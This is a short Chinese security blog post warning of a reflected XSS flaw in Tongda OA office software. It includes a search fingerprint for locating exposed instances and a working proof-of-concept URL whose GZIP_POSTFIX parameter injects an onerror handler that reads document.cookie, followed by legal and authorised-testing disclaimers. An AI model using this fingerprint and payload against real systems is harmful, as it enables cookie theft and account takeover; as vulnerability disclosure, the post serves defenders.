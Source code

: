 #  关于通达OA存在反射XSS漏洞的预警   
原创 丁永博  丁永博的成长日记   2024-02-27 23:59  
  
通达OA是中国协同办公自动化软件(OA软件)普及型的旗舰产品。该系统存在xss跨站脚本漏洞，可能造成cookie泄漏，黑客可利用获得的cookie登录系统。  
  
指纹：  
```
app="TDXK-通达OA"
```  
  
poc：  
```
http://ip/module/html_editor/editor/plugins/td_listview/td_listview.php?GZIP_POSTFIX=%22+onerror=alert(document.cookie)+a=1
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/vfnOYb9lyqpl7m1jAHWSPFwTFzI0hJCpNoZiaaicmeLstbHk2rtO5l0dPCsBnhvibZFkFPSgsXu3DXu3ORiajVgzBA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gn0JbCnxttRbj4Mib3fcSfwr0tP4UxXtjf47HFwaZcgwWStzGNLNMlGKQJz902fHTT8PCfOwHedLqarXh0eC9KQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
小知识  
  
  
  
**依据《刑法》第285条第3款的规定，犯提供非法侵入或者控制计算机信息系罪的，处3年以下有期徒刑或者****拘役****，并处或者单处****罚金****;情节特别严重的，处3年以上7年以下有期徒刑，并处罚金。**  
  
![](https://mmbiz.qpic.cn/mmbiz_png/Gn0JbCnxttRbj4Mib3fcSfwr0tP4UxXtjf47HFwaZcgwWStzGNLNMlGKQJz902fHTT8PCfOwHedLqarXh0eC9KQ/640?wx_fmt=png&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
声明  
  
  
  
**本文提供的技术参数仅供学习或运维人员对内部系统进行测试提供参考，未经授权请勿用本文提供的技术进行破坏性测试，利用此文提供的信息造成的直接或间接损失，由使用者承担。**  
  
![](https://mmbiz.qpic.cn/mmbiz_gif/vfnOYb9lyqr922u4gKibKgUuPUMicLibMqiajkAJp8vG8WLtiav9gmSF7T453KlPULqXgXJFaiat5gqogqncOXrghYPA/640?wx_fmt=gif&wxfrom=5&wx_lazy=1 "")  
  
  
欢迎   
**在看**  
丨  
**留言**  
丨  
**分享至朋友圈**  
 三连  
  
 **好文推荐******  
  
- [免登录读取别人的WX聊天记录](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247487346&idx=1&sn=9810af860afd8f94e1cf2ccf81a7e13f&chksm=c20a2c55f57da543fe1bdc21e670d036cb10efccf4d102a4bf9cb7c3956786858230c8172b54&scene=21#wechat_redirect)  
  
  
- [实战|监控里的秘密](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247484122&idx=1&sn=88801391b60d3b77df97026e9e495ec2&chksm=c20a21fdf57da8eb9641bff94074f2aa736d12e3a48098d33e66aca17ded9267e6686ddb9452&scene=21#wechat_redirect)  
  
  
- [木马工具|控制别人的电脑，非常简单！](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247484445&idx=1&sn=bb60b1a6a69c8c2d31a6e8d5fb09a638&chksm=c20a273af57dae2c544388af5d942e9100225f400d055274123dcd13784c21ec598b4f2e7591&scene=21#wechat_redirect)  
  
  
- [BlueLotus联动DVWA，实现xss窃取cookie](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247486084&idx=1&sn=62d3d7448aa06365d15157326e59b8e7&chksm=c20a29a3f57da0b56f4e5323d7c6b05e91b597df2697934e7903c27a730e2f4443983216f289&scene=21#wechat_redirect)  
  
  
- [实战|逻辑漏洞绕过](http://mp.weixin.qq.com/s?__biz=MzAwMjA5OTY5Ng==&mid=2247509911&idx=1&sn=c37f416483c1ab4bc7b8ee13a379280a&chksm=9acd7708adbafe1ef9f9f030e9de25446eacec18bd15df2f76ba21a4031c7f827563c03bb907&scene=21#wechat_redirect)  
  
  
- [路边的u盘你不要捡，山下的女人是老虎~](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485822&idx=1&sn=a5e05071dccc53fecc4b69d513489444&chksm=c20a2a59f57da34f00a26cab87251fffb1ca7ca51c658fea0d5e7f08788c1d59d86f95fc137a&scene=21#wechat_redirect)  
  
  
- [永恒之蓝彩虹猫联动](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485315&idx=1&sn=c64f1d550507b15b7655a6ec18e857de&chksm=c20a24a4f57dadb219c1ef76e18fad92932596782d9d7c10f264cb23245af31d5624666de16f&scene=21#wechat_redirect)  
  
  
- [5min学渗透|wifi断网攻击、暴力攻击](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485194&idx=1&sn=c425ac374dde652c5ac820b8b7aa5fdd&chksm=c20a242df57dad3b2fe01e302955f3ad3f25cde0ab8e08bb21a431c24f3acad965472efcdbed&scene=21#wechat_redirect)  
  
  
- [5min学渗透|你的手机是如何被监控的?](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485149&idx=1&sn=242ab51f1c6797cdff86af09a6ef6a1d&chksm=c20a25faf57dacec21276c8509c453a4c8446fdf44494ec2663ca61aab494ca7edc1eedc8694&scene=21#wechat_redirect)  
  
  
- [5min学渗透|简单制作钓鱼wifi 01](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485124&idx=1&sn=21899d53b348d7daa9e73b464fb9d423&chksm=c20a25e3f57dacf54e101b31ae6b292f822fc012795b604df0f15231072e80d887e8d98090bf&scene=21#wechat_redirect)  
  
  
- [实用小工具|破解office三件套加密密码](http://mp.weixin.qq.com/s?__biz=MzkyOTMxNDM3Ng==&mid=2247485123&idx=1&sn=21bc7ca9cc48d0270667709dc448410f&chksm=c20a25e4f57dacf27d5fb2d90f1ac6c04ac36ca5549023c4d83c85ff5464632563bad975cd50&scene=21#wechat_redirect)  
  
  
  
  
